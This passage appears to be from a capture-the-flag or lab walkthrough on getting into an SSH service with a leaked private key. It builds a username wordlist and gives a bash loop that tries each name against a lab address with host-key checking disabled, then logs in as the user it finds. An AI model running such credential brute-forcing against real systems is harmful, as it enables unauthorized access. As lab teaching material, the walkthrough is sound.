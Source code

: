 Set permission like this:
```bash
chmod 600 id_rsa
```
___

## Lets make wordlist for username: 

```bash
echo -e "arjun.pandey\nsita.sharma\nbinod.khadka\nrita.dahal\nbishnu.thapa\nram_jhakri\npratik.adhikari\nmira.gurung\nkrishna.kc\nanjali.magar\nrajesh.tamang" > username.txt

```
___
## You can bruteforce manually or by using tool like :

### Lets try medusa tool:
hydra can't be useful in this because, hydra directly don't work with id_rsa

**script:**
```bash
#!/bin/bash

target_ip="172.18.0.1"
private_key="id_rsa"
usernames_file="username.txt"
ssh_port=2222

# Loop through each username
while read -r username; do
  ssh -i "$private_key" "$username"@"$target_ip" -p "$ssh_port" -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -o PasswordAuthentication=no exit
  if [ $? -eq 0 ]; then
    echo "Successfully connected with username: $username"
  else
    echo "Failed to connect with username: $username"
  fi
done < "$usernames_file"
```
___

## By brute forcing:
![[Pasted image 20250123213909.png]]

**ram_jhakri** was the real username.

## Connecting to ssh using id_rsa:
**command:**
```bash
ssh -i id_rsa ram_jhakri@172.18.0.2
```
